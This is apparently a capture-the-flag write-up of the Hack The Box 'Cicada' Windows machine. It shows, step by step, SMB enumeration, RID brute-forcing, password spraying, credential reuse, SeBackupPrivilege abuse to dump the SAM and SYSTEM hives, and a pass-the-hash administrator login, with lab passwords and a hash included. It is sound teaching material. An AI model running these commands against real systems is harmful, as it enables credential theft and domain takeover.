# Cicada Writeup



Cicada is a beginner-friendly Windows machine that introduces fundamental Active Directory enumeration and exploitation techniques.
This was one of the first boxes I rooted on Hack The Box, and I learned a lot in the process!

## User flag

Lets start off with an nmap scan:
```
nmap -sV -sC -Pn -oA cicada1 10.10.11.35
```


Looking at the results, we can tell that this will be an Active Directory scenario. We get the domain name "Cicada.htb", as well as the name of the Domain Controller "CICADA-DC"



The first thing I would like to try is an anonymous login via SMB. We can do so by providing a nonexistent username and a blank password:

```
crackmapexec smb 10.10.11.35 -u 'nonexistent' -p '' --shares
```


We have read permissions over IPC$ and HR shares. IPC$, NETLOGON and SYSVOL are standard shares, so we'll focus on HR.

```
smbclient //10.10.11.35/HR -U cicada.htb/nonexistent
```


Lets read the file:



We have a potential password! Now we need to get a list of valid users so that we can perform password spraying:

```
crackmapexec smb 10.10.11.35 -u 'nonexistent' -p '' --rid-brute
```



Now that we have a list of users, we can proceed with password spraying via crackmapexec:



```
crackmapexec smb 10.10.11.35 -u userlistfinal.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

With a valid user, we can use bloodhound-python to enumerate the domain and then bloodhound itself to have a better view of the data.

```
bloodhound-python -c all --zip -d cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

In the description field of user David.Orelious, we discover a password!



```
david.orelious:aRt$Lp#7t*VQ!3
```

Previously we saw an unaccessible share named DEV. Lets try getting it with David's credentials:

```
smbclient //10.10.11.35/DEV -U cicada.htb/david.orelious                                    
```




Lets check out the script:



We've got creds for the user Emily!

```
emily.oscars:Q!3@Lp#M6b*7t*Vt
```

Lets try logging into the machine as Emily:

```
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```



## Privilege escalation

Lets check the privileges of our user:

```
whoami /priv
```


Emily has the SeBackupPrivilege. This privilege can be abused to extract registry hives (SAM and SYSTEM), allowing retrieval of the local administrator’s password hash
```
cd C:\
mkdir reg
reg save hklm\sam c:\reg\sam
reg save hklm\system c:\reg\system
cd reg
```


Now we need to get them onto our machine:

```
download sam
download system
```

Afterwards, we can use impacket-secretsdump to get the administrator's hash:

```
impacket-secretsdump -system system -sam sam -outputfile cicada.secrets -dc-ip 10.10.11.35 -target-ip 10.10.11.35 local     
```


Now all that's left to do is to log in as the administrator, and get the root flag!

```                                                                                                                                                                                                                                       
evil-winrm -i 10.10.11.35 -u administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```


